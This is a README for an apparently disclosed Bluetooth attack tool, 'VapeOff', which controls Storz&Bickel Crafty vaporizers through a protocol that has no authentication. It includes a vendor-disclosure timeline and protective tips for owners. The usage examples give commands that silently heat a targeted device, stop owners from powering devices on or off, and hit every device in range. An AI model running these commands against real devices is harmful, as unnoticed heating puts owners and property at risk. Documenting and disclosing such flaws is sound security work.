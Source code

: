# VapeOff
VapeOff is a tool wich uses the lack of authentication in the communication protocoll, to control vaporizers (at the moment only the Crafty) from Storz&Bickel. The issue was reported to Storz&Bickel on 15 August 2019. The 90 days deadline expired on 13.11.2019 without reaction, and therefore this script will be published without fix for the devices.

Currently it is possible to heat devices up (without led and vibration) and prevent shutdown by the owner, to prevent turning devices on and to let all craftys in proximity vibrate and blink.

## Usage
```
usage: vapeoff.py [-h] [-i INTERFACE] [-m MAC] [-a] [-o] [-p] [-s] [-f]
                  [-t TARGET_TEMP] [-l] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        specify interface (default: hci0)
  -m MAC, --mac MAC     specify target mac (default: None)
  -a, --all             attack all devices in area, overwrites '--mac'
                        (default: False)
  -o, --heat            start device(s) (default: False)
  -p, --perm            enable permanent bluetooth (default: False)
  -s, --silent          deactivate vibration and leds of devices (default:
                        False)
  -f, --vibrate         let devices vibrate (default: False)
  -t TARGET_TEMP, --target_temp TARGET_TEMP
                        sets the target temperature (default: None)
  -l, --list-devices    run discovery and print macs of supported devices in
                        the area. Can be combined with '--mac' and '--all'
                        (default: False)
  -v, --verbose
```

## Examples

Turning all Crafty's (with bluetooth enabled) on in proximity and activates permament bluetooth.
```
python3 vapeoff.py -o -a --perm
```
Turning on only a specified device without notification of the owener
```
python3 vapeoff.py -o -m [MAC] --silent
```

Preventing tuning on of all Crafty's in proximity
As soon as the device is turned on this script connects and stops the heating.
```
python3 vapeoff.py -a
```

Letting all Crafty's (with bluetooth enabled) in proximity vibrate and blink
```
python3 vapeoff.py -a -f
```

## Workarounds

a) Sometimes disconnecting fails. In this case the connection must be disconnected manually. This is possible via Bluetooth Manager or resetting the Bluetooth interface. 

## What can i do to protect my Crafty?
Turn off permament bluetooth.
Connect your smartphone to your Crafty as soons as you turn it on.
If you realize that your device is heating up without your interaction, leave the area as a bluetooth connection is needed.

## Dependencies
* python3
* bitstring
* gatt>=0.2.7

